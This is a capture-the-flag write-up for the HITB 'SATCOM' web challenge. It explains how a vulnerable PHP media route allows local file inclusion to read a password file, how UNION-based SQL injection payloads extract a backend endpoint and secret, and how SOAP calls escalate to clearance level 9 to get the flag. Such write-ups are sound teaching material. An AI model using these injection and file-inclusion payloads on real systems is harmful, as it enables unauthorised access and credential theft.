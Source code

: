 Title: web1000 - SATCOM
Author: doskop
Date: 2015-03-31 7:18
Tags: CTF


## Introduction

> SATCOM

> Our division of foreign cyber affairs has been hard at work lately. While
> mapping out some obscure subnets (which we think belong to the intelligence
> agency that is investigating HEAVENWEB) we've come accross a Sattelite
> Communications Center. One of our employees managed to snag a copy of some
> source code before they further locked down the platform. Luckily the login
> frontend still seems to be reachable.

## Logging in

We're presented with the source code of the front end and a link to the login page of the SATCOM system.

The login page doesn't seem to be vulnerable to SQL injection, so we start looking at the source code of the front end. The login check is handled by the LoginController->handleLogin($form) function, which delegates it to a user facade, which delegates it to an authentication service, which looks up the users in a repository. That repository is stored in /etc/scc.passwd so let's find a local file inclusion vulnerability.

Looking at the inline stylesheet we see that the arrow for the login button is served using a media/view route and not from the static file directory.

The MediaController contains these lines:

    :::php
    <?php
    public  function viewAction($file)
    {
            $folder = isset($_GET['folder']) ? $_GET['folder'] . "/" : "../app/storefront/resources/";
    
            try {
                    $fp = $this->getResourceService()->getResourceHandle($folder . $file);
                    $this->view->setRenderLevel(View::LEVEL_NO_RENDER);
                    $this->response->setHeader("Content-Type", "image/png");
    
                    fpassthru($fp);
    
            } catch (\Exception $e) {
                    echo $e->getMessage();
            }
    }
    ?>

That should be trivial to exploit, just provide a folder and a file.

    $ curl http://satcom.info/media/view/scc.passwd?folder=/etc
    4100:uPN4jD:phenom:3:true
    9011:Lft3a7:denial:3:true
    3331:Zs6tzx:admin:9:false

Too bad, the admin is disabled. Let's log in using the denial account.

## Deeper down the rabbit hole

After poking around the SATCOM interface a bit, we notice we can't get the data for the transponder with SIC 14.55 and location HEAVENWEB because we only have clearance level 3 and we need level 9. Back to the source code.

Looking at the views that provide the transponder management pages, we see that it uses the TransponderControlServiceClient class to communicate with a SOAP backend (in external/service/TransponderControlServiceClient.php). It gets the endpoint and a secret from the database and uses that to authenticate against the backend.

While poking around, we noticed that the getTransponderBySic function, which is used by the activate transponder code, is vulnerable to SQL injection. Let's use that to fetch the backend endpoint and secret. We go to the activate page and try to activate the following transponder:

    ' UNION ALL SELECT 1,value,3,4,5,6,7,8,9,10,11 FROM config WHERE `key`='external.webservice.endpoint' --

The error message on the top of the form will read:

    Transponder "http://primary-private-srv.satcom.info/service.wsdl" already activated

Ok, so now we have the endpoint. Let's get the secret:

    ' UNION ALL SELECT 1,value,3,4,5,6,7,8,9,10,11 FROM config WHERE `key`='external.webservice.secret' --

The error will be:

    Transponder "f8bb883a642fe29ad2f70bbe4077459a" already activated

## Capture the flag!

We now have a SOAP backend endpoint and a secret. Let's use them. We'll use suds to connect to the backend, use the CreateSessionForUid method using the admin's UID to create a session and use the GetPacketData method to get the data we want.

    :::python
    $ python
    >>> from suds.client import Client
    >>> c = Client('http://primary-private-srv.satcom.info/service.wsdl')
    >>> c.service.CreateSessionForUid('f8bb883a642fe29ad2f70bbe4077459a', 3331)
    >>> c.service.GetPacketData('1.4.55')
    No handlers could be found for logger "suds.client"
    Traceback (most recent call last):
      File "<stdin>", line 1, in <module>
      File "/Users/ingmar/Projects/wargames/lib/python2.7/site-packages/suds/client.py", line 542, in __call__
        return client.invoke(args, kwargs)
      File "/Users/ingmar/Projects/wargames/lib/python2.7/site-packages/suds/client.py", line 602, in invoke
        result = self.send(soapenv)
      File "/Users/ingmar/Projects/wargames/lib/python2.7/site-packages/suds/client.py", line 649, in send
        result = self.failed(binding, e)
      File "/Users/ingmar/Projects/wargames/lib/python2.7/site-packages/suds/client.py", line 702, in failed
        r, p = binding.get_fault(reply)
      File "/Users/ingmar/Projects/wargames/lib/python2.7/site-packages/suds/bindings/binding.py", line 265, in get_fault
        raise WebFault(p, faultroot)
    suds.WebFault: Server raised fault: 'You need clearance level 9 to view this data'

Not what we hoped for. Should've expected that though, the admin account was disabled after all. Let have a look at the WSDL to see what else we've got.

    :::xml
    <wsdl:portType name="TransponderControlServicePortType">
        <wsdl:operation name="CreateSessionForUid">
            <wsdl:input message="tns:CreateSessionForUidRequest"/>
            <wsdl:output message="tns:CreateSessionForUidResponse"/>
        </wsdl:operation>
        <wsdl:operation name="CreateSessionForClearanceLevel">
            <wsdl:input message="tns:CreateSessionForClearanceLevelRequest"/>
            <wsdl:output message="tns:CreateSessionForClearanceLevelResponse"/>
        </wsdl:operation>
        <wsdl:operation name="GetPacketData">
            <wsdl:input message="tns:GetPacketDataRequest"/>
            <wsdl:output message="tns:GetPacketDataResponse"/>
        </wsdl:operation>
        <wsdl:operation name="GetStatus">
            <wsdl:input message="tns:GetStatusRequest"/>
            <wsdl:output message="tns:GetStatusResponse"/>
        </wsdl:operation>
    </wsdl:portType>

CreateSessionForClearanceLevel looks promising. Let's try it.

    :::python
    $ python
    >>> from suds.client import Client
    >>> c = Client('http://primary-private-srv.satcom.info/service.wsdl')
    >>> c.service.CreateSessionForClearanceLevel('f8bb883a642fe29ad2f70bbe4077459a', 9)
    >>> c.service.GetPacketData('1.4.55')
    Great job!! :) Here's your flag: HITB{32c148293a4b6634c211284f2578bb35}
